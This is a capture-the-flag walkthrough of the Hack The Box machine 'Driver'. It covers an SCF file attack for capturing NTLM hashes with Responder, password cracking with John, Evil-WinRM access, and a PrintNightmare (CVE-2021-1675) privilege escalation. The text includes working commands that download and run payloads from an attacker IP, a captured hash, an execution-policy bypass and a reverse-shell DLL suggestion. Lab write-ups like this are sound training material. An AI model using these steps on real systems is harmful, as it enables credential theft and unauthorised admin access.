



## Description
The box is available [here](https://app.hackthebox.com/machines/387) if you want to try it before read this.

 - OS : Linux
 - Release date : 02/10/2021
 - Difficulty : easy
 - Points : 20
 - IP Adress : ````10.10.11.106````

All is good, so here we go !

## Foothold
First, we scan the IP with the famous tool [**Nmap**](https://nmap.org), using the command :

```markdown
nmap 10.10.11.106 -sC -sV -p-
```

We obtain the following output :
```markdown
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-25 21:37 CET
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 33.90% done; ETC: 21:38 (0:00:06 remaining)
Nmap scan report for 10.10.11.106
Host is up (0.030s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 5.20 seconds

```

There are 4 open ports : 80 (**HTTP**), 135 (**MSRPC**), 445 (**SMB**) and 5985 (**Evil-WM**)...

So now, we are going to look the website. We have a Pop-up which contain a authentification. We can try to use admin/admin...



And, sometimes, it works :)


When we explore the website, we find this page with an upload form. Here, we can make a link with the *upload* and *SMB*, and we can exploit a *SCF File Attacks*.

This [article](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) is really useful to understand this attack. It is really simple to exploit :

 - Create a .scf file
 - Add this following lines :
 ```
[Shell]
Command=2
IconFile=\\{YOUR_IP}\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
   ```
 - Add '@' in front of the filename

We have the exploit file but we need to setup a listener with [**Responder**](https://github.com/SpiderLabs/Responder) (installed in Kali-Linux).

```markdown
sudo responder -wrf --lm -v -I tun0
```

Then, upload the file with the website and wait a little.


We receive a connection with a user and a hash.

```markdown
tony::DRIVER:2a7cdabfa3a86e6d:8145E5C2E03F2363A318FFE99BE766AC:0101000000000000216A32ACC32AD8014F1FE417A226E7A300000000020000000000000000000000
```

We create a file which contains the hash and we use [**John**](https://www.openwall.com/john/) to crack the password.

```markdown
john {HASH_FILE} --wordlist=path/to/rockyou.txt
```

We wait a moment, and **John** gives us the password : ````liltony````.

Now we can access to the machine with [**Evil-WinRM**](https://github.com/Hackplayers/evil-winrm). It a useful tool when you pentest Windows machines.


```markdown
evil-winrm -i 10.10.11.106 -u tony
```
Now, we are connected with user Tony. The user flag is located in ````C:\Users\Tony\Desktop\user.txt````.

## Privilege Esclation
The last part is to become the Administrator user. First, we can enum the box with [**WinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), the **Linpeas** for Windows.

To import this, use the following command: 

```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{YOUR_IP}:8080/winPEASany_ofs.exe','C:\Users\tony\Downloads\winpeas.exe')"
```

And execute it :
```markdown
.\winpeas.exe
```

Once **WinPEAS** finish, we can see that the *spoolsv* process is working. So, we can check if it is vulnerable with the ***NightMare*** exploit.


We search on github a exploit of CVE-2021-1675 and we find this [one](https://github.com/mtthwstffrd/calebstewart-CVE-2021-1675). We upload the .ps1 payload on the machine :
```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[YOUR_IP}:8080/CVE-2021-1675.ps1','C:\temp\bad.ps1')"
```

Then, we just have to execute the payload: 
```markdown
Import-Module .\bad.ps1
```

But we are restricted because we can't execute the payload. We try to bypass this by using ````powershell -ep bypass```` but **Evil-WinRM** doesn't like. We find a other command: 
```markdown
set-ExecutionPolicy RemoteSigned -Scope CurrentUser
```

Now, it is perfectly working ! 

The exploit add a new user in the local admin group. So, we gonna create a new local user but with admin privileges.
```markdown
Import-Module .\bad.ps1
Invoke-Nightmare -DriverName "Xerox" -NewUser "{RANDOM_USERNAME}" -NewPassword "{RANDOM_PASSWORD}" 
```


Finally, open a new session with the new user and you will be in the Administrator group.


Go in ````C:\Users\Administrator\Desktop\````, and made a ````type root.txt````



And BOOM, we have the root flag !

*Note: To have a shell as NT/Authority System, just create a reverse shell in .dll and use ````Invoke-Nightmare -DLL "C:\path\to\your\reverse_shell.dll"````.*

## Conclusion
The box was really interesting and we learned new attacks about the .scf files. I recommend this box, 4 stars because it was, for me, a little guessing for the user flag.

Thanks for reading ! :)
